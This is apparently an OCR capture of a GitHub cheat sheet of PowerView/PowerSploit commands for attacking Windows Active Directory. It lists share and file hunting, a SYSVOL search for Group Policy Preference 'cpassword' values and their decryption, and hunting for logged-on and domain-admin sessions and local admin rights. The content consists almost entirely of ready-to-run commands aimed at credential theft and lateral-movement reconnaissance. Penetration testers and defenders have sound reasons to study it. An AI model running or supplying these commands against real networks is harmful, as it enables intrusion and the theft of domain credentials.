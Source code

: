   ```powershell
  ```powershell
  Invoke-ShareFinder

- Identify juicy files accessible over the shared folder

  ```powershell
  Invoke-FileFinder

- Find File servers in current domain

  ```powershell
  Get-FileNetServer

- Find hardcoded Password via Group Policy Preference  

  ```powershell
  findstr /S /I cpassword \\dc.organicsecurity.local\sysvol\organicsecurity.local\policies\*.xml

- Decrypt the GPP Password identified in previous step (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

  ```powershell
  Get-DecryptedCpassword


**User Hunting**

- Find session of logged on users on the server

  ```powershell
  Get-NetLoggedOn <computer-name>
  (Get-NetComputer -FullData).foreach({Get-NetLoggedOn $_.cn})

- Find last logged on user on the remote machine

  ```powershell
  Get-LastLoggedOn -ComputerName <servername>

- Find all the local admin accounts on all the machines (Required Admin rights on non-dc machines)

  ```powershell
  Invoke-EnumerateLocalAdmin | select ComputerName, AccountName, IsDomain, IsAdmin

- Find Local Admin rights for current user

  ```powershell
  Find-LocalAdminAccess
  Invoke-CheckLocalAdminAccess
  Invoke-CheckLocalAdminAccess -ComputerName <server_fqdn>

- Find the computers where Domain Admin or specified User/Group has active session

  ```powershell
  Invoke-UserHunter

- "stealth" option only checks for session on only High Value Servers

  ```powershell
  Invoke-UserHunter -stealth

- Check for Powershell Remoting access for current user

  ```powershell
  Find-PSRemotingLocalAdminAccess -ComputerName <server_fqdn>

  ```